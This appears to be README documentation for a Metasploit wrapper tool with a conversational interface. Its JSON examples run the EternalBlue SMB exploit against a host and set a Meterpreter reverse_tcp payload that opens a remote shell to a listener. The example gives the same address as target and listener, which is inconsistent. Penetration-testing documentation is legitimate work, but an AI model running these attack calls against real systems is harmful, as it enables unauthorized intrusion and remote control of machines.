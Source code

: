 # Metasploit Framework Tool

## Overview
The **Metasploit Framework Tool** is an advanced Metasploit Framework integration for exploit development and execution with full cross-platform support. It provides comprehensive penetration testing capabilities including exploit development, payload generation, post-exploitation modules, and automated attack chains.

## Features
- **Exploit Development**: Advanced exploit development and testing
- **Payload Generation**: Custom payload generation and management
- **Post-Exploitation**: Comprehensive post-exploitation modules
- **Automated Attack Chains**: Automated attack chain execution
- **Cross-Platform**: Windows, Linux, macOS, Android, iOS support
- **Natural Language**: Conversational interface for exploit management
- **Session Management**: Advanced session management and interaction
- **Module Management**: Comprehensive module management and execution

## Usage

### Exploit Management
```bash
# List exploits
{
  "action": "list_exploits",
  "platform": "windows"
}

# Search exploits
{
  "action": "search_exploits",
  "search_term": "eternalblue",
  "platform": "windows"
}

# Use exploit
{
  "action": "use_exploit",
  "exploit": "exploit/windows/smb/ms17_010_eternalblue",
  "target": "192.168.1.100"
}
```

### Payload Management
```bash
# Set payload
{
  "action": "set_payload",
  "payload": "windows/x64/meterpreter/reverse_tcp",
  "lhost": "192.168.1.100",
  "lport": 4444
}

# Generate payload
{
  "action": "generate_payload",
  "payload": "windows/x64/meterpreter/reverse_tcp",
  "lhost": "192.168.1.100",
  "lport": 4444
}
```